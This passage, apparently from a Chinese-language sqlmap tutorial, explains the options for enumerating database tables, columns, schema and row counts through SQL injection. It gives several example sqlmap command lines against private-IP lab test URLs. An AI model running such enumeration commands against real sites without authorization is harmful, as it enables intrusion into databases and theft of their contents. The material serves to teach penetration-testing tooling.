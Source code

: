 > 在得到数据库的读(写)权限的**前提下** , 列出数据库的数据表.

```
--tables                  # 列出数据库表
--exclude-sysdbs          # 排除所有的系统数据库
-D                        # 列出指定数据库的数据表. 如果不指定将列出所有数据库的数据表.

# 对于Oracle, 我们需要提供tablespace_name   , 而不是数据库名称
```



## col相关参数

> 在得到数据库的读(写)权限的**前提下** , 列出数据表的列名

```
--columns           # 枚举出数据表的列名
-C                  # 和 --columns一样的, 只是一个简写
-T                  # 指定表名 
-D                  # 指定数据库, 不指定将列出所有的数据库

注意: 
对于PostgreSQL数据库,  使用者必须提供public或者系统数据库名
```

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/sqlite/get_int.php?id=1" -\
-columns -D testdb -T users -C name
```



## 列出数据库表, 库等完整的信息

```
--schema             
--exclude-sysdbs       # 包含非系统数据库模式时列出数据
```

```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --s\
chema--batch --exclude-sysdbs
```



## --count

> 列出数据表的条目数 , 将会显示出所有的数据表和对应的条目数

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1"\
 --count -D testdb
```



## 列举数据表库条目

